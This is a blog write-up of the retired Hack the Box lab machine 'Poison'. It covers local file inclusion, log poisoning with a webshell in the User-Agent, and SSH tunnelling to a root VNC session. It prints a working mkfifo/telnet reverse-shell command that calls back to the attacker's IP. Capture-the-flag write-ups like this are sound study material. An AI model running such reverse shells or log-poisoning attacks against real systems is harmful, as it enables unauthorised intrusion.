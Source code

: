 ```yaml
---
layout: post
title: Hack the Box - Poison
date: 2020-09-08 20:26:22 +0100
description: Poison is a fairly easy machine which focuses mainly on log poisoning and port forwarding/tunneling. The machine is running FreeBSD which presents a few challenges for novice users as many common binaries from other distros are not available.
img: poison.png
fig-caption: Poison
categories: HackTheBox
tags: [Medium, FreeBSD, Retired, CTF]
---
```

## Overview
Poison is a fairly easy machine which focuses mainly on log poisoning and port forwarding/tunneling. The machine is running FreeBSD which presents a few challenges for novice users as many common binaries from other distros are not available.

## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/poison]
└─$ sudo nmap -p- -T4 10.129.117.245   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 20:34 GMT
Stats: 0:05:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 78.95% done; ETC: 20:41 (0:01:22 remaining)
Nmap scan report for 10.129.117.245
Host is up (0.016s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 388.67 seconds
```
When interacting with the site I noticed that when you choose a script it includes it as a query parameter which hints at LFI. To test this I tried to include `/etc/hosts` and was happy to see it was successful.

## Foothold
As there didn't seem to be a way to upload files, adding an entry into the log files seemed like a logical approach. I tested including the log files and managed to using the filepath `/var/log/httpd-access.log`. Then using burpsuite I added a webshell through the user agent. With this in place I was able to achieve RCE and sent back a reverse shell using the following command.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |telnet 10.10.14.27 8082 > /tmp/f
```
With a netcat listener running it sent back the shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/poison]
└─$ nc -nlvp 8082
listening on [any] 8082 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.117.252] 37331
whoami
www
```
In this directory I found a password backup file that had been repeatedly base64 encoded. So after a few iterations of decoding it, which we can use to SSH in as a user.

## Privilege Escalation
During enumeration on the target I found a file called `secret.zip`. This can be extracted using the users password. I also found a port open that was bound to localhost. So we can set up port forwarding using SSH with the following command.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/poison]
└─$ ssh -L 5901:127.0.0.1:5901 charix@10.129.117.252
Password for charix@Poison:
Last login: Mon Mar 22 23:14:57 2021 from 10.10.14.27
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!
```
Googling the port I found it was a vnc port so while attempting to use the extracted secret file and connect on that port we then get a root shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/poison]
└─$ vncviewer 127.0.0.1::5901 -passwd secret/secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
```